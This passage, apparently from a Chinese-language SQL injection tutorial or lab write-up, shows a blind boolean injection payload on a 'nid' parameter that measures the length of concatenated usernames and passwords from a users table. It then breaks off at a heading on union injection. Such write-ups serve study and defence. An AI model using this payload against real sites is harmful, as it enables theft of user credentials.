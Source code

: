 ![](./pic-8/18.jpg)

知道列名后，就可以获取数据了，不过，还是需要测试指定的列名，其数据长度

```shell
/?nid=1 and if(length((select group_concat(name,'|',pass) from users))={i},1,0)--+
```

![](./pic-8/19.jpg)

再继续往后，经过测试，啧，密码的大小写不分，导致排列组合太多，所以不再继续

## union注入
